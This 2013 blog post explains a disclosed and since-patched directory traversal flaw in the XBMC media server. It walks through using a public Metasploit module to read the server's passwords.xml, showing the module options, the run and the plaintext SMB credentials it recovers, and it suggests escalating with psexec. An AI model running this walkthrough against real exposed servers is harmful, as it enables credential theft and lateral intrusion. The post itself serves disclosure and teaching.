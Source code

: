 ```yaml
---
title: "XBMC Traversal Metasploit Module"
date: "2013-02-25T15:32:00-05:00"
comments: true
highlight: "true"
categories:
 - directorytraversal
 - metasploit
 - hacking
 - exploit
---
```


## Background

I was talking in [Intern0t](irc://chat.freenode.net:6667/intern0t) several months ago. [AcidGen](https://twitter.com/Acidgen), from [IOActive](http://www.ioactive.com) mentioned that he found a bug in [XBMC](http://www.xbmc.org). I use [XBMC](http://www.xbmc.org) quite a bit at home, on various platforms, since it's extremely wife-friendly. I hit him up, and we started talking. We had a nice Skype conversation, where we discussed possible platforms that were affected, and future exploits that we'd like to find. Since I had a jailbroken [Apple TV 2](https://www.apple.com/appletv) and [RaspberryPi](http://www.raspberrypi.org), I told him that I could test those platforms and help out. 

<!-- more -->

An [official disclosure](http://www.ioactive.com/pdfs/Security_Advisory_XBMC.pdf) was released, detailing the directory traversal vulnerability. The [XBMC](http://www.xbmc.org) team was able to make a [fix](https://github.com/xbmc/xbmc/commit/bdff099c024521941cb0956fe01d99ab52a65335), and the new version 12 is not vulnerable.

## Why does this vulnerability matter?

When talking with the [XBMC](http://www.xbmc.org), they seemed to play off the vulnerability, because they believed nobody would ever expose this service to a public network. However, a quick [ShodanHQ](http://www.shodanhq.com/search?q=xbmc) search shows that people are exposing it. But you may say, "Matt, this is only a directory traversal vulnerability, what are you going to do, steal someone's MP3s?". The issue here, lies in that if you can read any file on the system, that may include password files, such as /etc/passwd or even /etc/shadow if the service runs as root. What makes this even worse, is that due to how XBMC has to pass credentials to a fileserver, it stores the credentials in plain text. This gives an attacker a <i>huge</i> advantage. They now have valid credentials on at least one system. If the system has SMB exposed as well, it could easily be game-over.

## Let's see the exploit...

I don't know why it took so long, but I finally finished the MSF module for this vulnerability. It can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/xbmc_traversal.rb). The usage is pretty simple. Here is a sample exploitation against an [Apple TV 2](https://www.apple.com/appletv).

As usual, watch the pretty ASCII-art go by, and use the module. 

```
420-1572-man:gather mandreko$ msfconsole
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1048 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops

msf > use auxiliary/gather/xbmc_traversal
msf  auxiliary(xbmc_traversal) >
</pre>Check out the options. You'll see the username and password that need to be set (however it's often defaulted to "xbmc", as well as the host, and file to disclose. 
<pre>msf  auxiliary(xbmc_traversal) > show options

Module options (auxiliary/gather/xbmc_traversal):

   Name      Current Setting                                                      Required  Description
   ----      ---------------                                                      --------  -----------
   DEPTH     9                                                                    yes       The max traversal depth
   FILEPATH  /private/var/mobile/Library/Preferences/XBMC/userdata/passwords.xml  no        The name of the file to download
   PASSWORD  xbmc                                                                 yes       The password to use for the HTTP server
   Proxies                                                                        no        Use a proxy chain
   RHOST                                                                          yes       The target address
   RPORT     8080                                                                 yes       The target port
   USERNAME  xbmc                                                                 yes       The username to use for the HTTP server
   VHOST                                                                          no        HTTP server virtual host

msf  auxiliary(xbmc_traversal) >
```

Go ahead and set the RHOST to the XBMC server. 

```
msf  auxiliary(xbmc_traversal) > set rhost 192.168.1.102
rhost => 192.168.1.102
msf  auxiliary(xbmc_traversal) >
```

Lastly, run the exploit 

```
msf  auxiliary(xbmc_traversal) > run

[+] File saved in: /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
[*] Auxiliary module execution completed
msf  auxiliary(xbmc_traversal) >
```

You can see this was successful. It saved the file locally, and added notes in [Metasploit](http://www.metasploit.com). Just to verify the findings, you can read the file it saved. 

```
msf  auxiliary(xbmc_traversal) > cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
```

```
[*] exec: cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml

<passwords>
    <path>
        <from pathversion="1">smb://192.168.1.2/Movies</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Movies/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/tv</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/tv/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/Music</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Music/</to>
    </path>
</passwords>
msf  auxiliary(xbmc_traversal) >
```

And there you have it. You now have valid credentials on that fileserver. You could start escalating with psexec or other methods. Half the battle is already over.
